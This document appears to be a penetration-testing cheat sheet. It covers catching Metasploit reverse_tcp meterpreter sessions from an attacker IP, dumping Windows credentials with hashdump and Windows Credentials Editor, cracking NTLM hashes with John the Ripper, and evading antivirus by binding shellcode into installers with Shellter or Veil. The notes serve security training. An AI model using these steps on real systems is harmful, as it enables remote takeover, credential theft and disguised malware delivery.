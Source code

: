 #### Payloads created using msfvenom can be taken control using the `exploit/multi/handler` module present in msfc. Make sure that the payload being reverse/bind type should be set to the same architecture on the attacker's as well as the target's machine when connecting
> msf> `use exploit/multi/handler`
>
> msf **exploit(multi/handler)** > `set payload windows/meterpreter/reverse_tcp`
>
> msf **exploit(multi/handler)** > `set LHOST <attacker's_ip>`
>
> [*] Started reverse TCP handler on \<attacker's_ip\>:4444

---

#### Dumping, Cracking Passwords:

- Dumping:

  To dump passwords from the target machine we can make use of:
  - `hashdump` command from **meterpreter** session
  - [Windows Credentials Editor](https://www.ampliasecurity.com/research/windows-credentials-editor/) that is already present in most of the penetration testing linux distros in the following location: `/usr/share/windows-resources/wce/`. Some flags definitions are as follows:
    - `-h` - Open wce help menu
    - `-l` - List logon sessions and NTLM credentials
    - `-w` - dump cleartext passwords stored by the digest authentication package

- Cracking:

  - For cracking passwords we need a wordlist that is again already present in penetration testing linux distros by default in the following locations:
    - `usr/share/john/password.lst`
    - `usr/share/wordlists/rockyou.txt.gz` (to unzip: `gzip -d /usr/share/wordlists/rockyou.txt.gz`)
  - Using **John the Ripper** we can perform password cracking:
    > $ `john --format=NT --wordlist=<wordlist_file>.txt <hashdump_file>.txt`

---

Stealth Util:

- [Shellter](https://www.shellterproject.com/introducing-shellter/)
  > Shellter is a dynamic shellcode injection tool, and the first truly dynamic PE infector ever created. It can be used in order to inject shellcode into native Windows applications (currently 32-bit applications only). The shellcode can be something yours or something generated through a framework, such as Metasploit. **Wine32** is required to run in linux.
  - The way to use this is to bind a legit installer such as **winrar.exe** or any other setup application with the shellcode.
  - Then setup the `exploit/multi/handler` in msfc to establish a communication channel but with more stealth

- [Veil](https://github.com/Veil-Framework/Veil)
  > Designed to generate metasploit payloads that bypasses common anti-virus solutions.
  >
  > **NOTE: This application is not a trojan creator but only creates payloads**

  - Run this application using root privilege in linux
  - Requirements such as **Wine32** and **PyInstaller** should be installed before running

---

